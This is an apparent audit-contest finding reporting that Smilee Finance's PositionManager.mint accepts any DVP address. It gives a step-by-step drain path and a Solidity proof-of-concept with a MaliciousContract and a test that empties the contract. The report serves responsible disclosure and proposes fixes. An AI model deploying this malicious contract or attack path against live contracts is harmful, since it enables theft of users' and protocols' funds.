 Special Saffron Moth

high

# The `PositionManager` can be drained by providing a malicious contract as `DVP` to the mint function

## Summary

The `mint` function in the `PositionManager` contract does not check if the given `DVP` contract address is registered by the Smilee admins. Therefore any arbitrary contract address can be used. This enables a direct attack path to drain the `PositionManager` contract.

## Vulnerability Detail

Here we can see the vulnerability in the `mint` function:

```solidity
function mint(
    IPositionManager.MintParams calldata params
) external override returns (uint256 tokenId, uint256 premium) {
    // 1. dvpAddr is not checked to be valid

    IDVP dvp = IDVP(params.dvpAddr);

    ...

    // 2. the PositionManager requests the expected premium from the malicious DVP contract
    uint256 obtainedPremium;
    uint256 fee;
    (obtainedPremium, fee) = dvp.premium(params.strike, params.notionalUp, params.notionalDown);

    // 3. the expected premium is sent from the attacker to the PositionManager
    IERC20 baseToken = IERC20(dvp.baseToken());
    baseToken.safeTransferFrom(msg.sender, address(this), obtainedPremium);

    // 4. The PositionManager approves the given premium amt to the malicious contract
    baseToken.safeApprove(params.dvpAddr, obtainedPremium);

    // 5. The malicious contract returns a seconds premium amount of one wei
    premium = dvp.mint(
        address(this),
        params.strike,
        params.notionalUp,
        params.notionalDown,
        params.expectedPremium,
        params.maxSlippage,
        params.nftAccessTokenId
    );

    // 6. The PositionManager transfers the difference between the two received premium amts to the attacker
    if (obtainedPremium > premium) {
        baseToken.safeTransferFrom(address(this), msg.sender, obtainedPremium - premium);
    }
}
```

This enables the following attack path:

- The attacker creates a malicious contract that acts like it's a DVP contract
- The attacker approves x baseTokens to the `PositionManager` contract
- The attacker calls `mint` with the malicious contract as `DVP` address
- The `PositionManager` requests the expected premium from the malicious contract which returns an amount of x
- The `PositionManager` transfer x baseTokens from the attacker to itself
- The `PositionManager` approves x baseTokens to the malicious contract
- The `PositionManager` calls `mint` on the malicious contract
- The malicious contract transfers the approved x tokens back to the attacker and returns a premium of 1 wei
- The `PositionManager` transfers the difference (x - 1) to the attacker
- Now the attacker has x \* 2 - 1 base tokens and the PositionManager lost x - 1 base tokens

There is also another bug in this flow which would often lead to reverts and prevent normal users, as well as the attack in this case, to interact with the `PositionManager`. The excess premium paid is sent back with the `transferFrom` instead of the `transfer` function. Therefore depending on the implementation of the given base token, this function call will revert as the `PostionManager` would need to approve the tokens to itself. Therefore change this line to `safeTransfer` instead:

```solidity
if (obtainedPremium > premium) {
    baseToken.safeTransferFrom(address(this), msg.sender, obtainedPremium - premium);
}
```

The following POC can be implemented in the `PositionManager.t.sol` test file (the mentioned safeTransferFrom must be changed to `safeTransfer` to make it work as the OZ ERC20 implementation does not check if the given from address to `transferFrom` is the caller itself):

```solidity
// imports and contracts needed for the POC
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract USDC is ERC20 {
    constructor() ERC20("USDC", "USDC") {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

contract MaliciousContract {
    struct Epoch {
        uint256 current;
        uint256 previous;
        uint256 frequency;
        uint256 numberOfRolledEpochs;
        uint256 firstEpochTimespan;
    }

    Epoch epoch;

    address public immutable baseToken;
    address attacker;

    constructor(address _baseToken, address _attacker) {
        baseToken = _baseToken;
        attacker = _attacker;

        epoch.firstEpochTimespan = 100;
        epoch.current = 1;
        epoch.previous = 0;
        epoch.frequency = 100;
        epoch.numberOfRolledEpochs = 0;
    }

    function mint(
        address recipient,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown,
        uint256 expectedPremium,
        uint256 maxSlippage,
        uint256 nftAccessTokenId
    ) external returns (uint256 premium_) {
        recipient;
        strike;
        amountUp;
        amountDown;
        expectedPremium;
        maxSlippage;
        nftAccessTokenId;

        IERC20(baseToken).transferFrom(msg.sender, attacker, 100e18);

        return 1;
    }

    function premium(
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown
    ) public view returns (uint256 premium_, uint256 fee) {
        strike;
        amountUp;
        amountDown;

        return (100e18, 1e18);
    }

    function getEpoch() public view returns (Epoch memory) {
        return epoch;
    }
}

contract PositionManagerTest is Test {
    ...
    // import into the current tests
    function testDrainPositionManager() public {
        // the position manager and the attacker both start with 100 base tokens

        USDC usdc = new USDC();

        usdc.mint(address(pm), 100e18);
        usdc.mint(alice, 100e18);

        assertEq(usdc.balanceOf(address(pm)), 100e18);
        assertEq(usdc.balanceOf(alice), 100e18);

        vm.prank(alice);
        usdc.approve(address(pm), 100e18);

        // attacker uses a malicious contract as DVP address
        MaliciousContract maliciousContract = new MaliciousContract(address(usdc), alice);

        vm.prank(alice);
        pm.mint(
            IPositionManager.MintParams({
                dvpAddr: address(maliciousContract),
                notionalUp: 10 ether,
                notionalDown: 0,
                strike: 5e18,
                recipient: alice,
                tokenId: 0,
                expectedPremium: 1e18,
                maxSlippage: 0.1e18,
                nftAccessTokenId: 0
            })
        );

        // the attacker drained all funds (except from 1 wei)
        assertEq(usdc.balanceOf(address(pm)), 1);
        assertEq(usdc.balanceOf(alice), 200e18 - 1);
    }

    ...
}
```

## Impact

The `PositionManger` contract can be fully drained in a direct attack path.

## Code Snippet

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/periphery/PositionManager.sol#L121-L141

## Tool used

Manual Review

## Recommendation

Check if the given DVP address is registered by the admins of the Smilee protocol and change `safeTransferFrom` to `safeTransfer` when returning excess premiums.
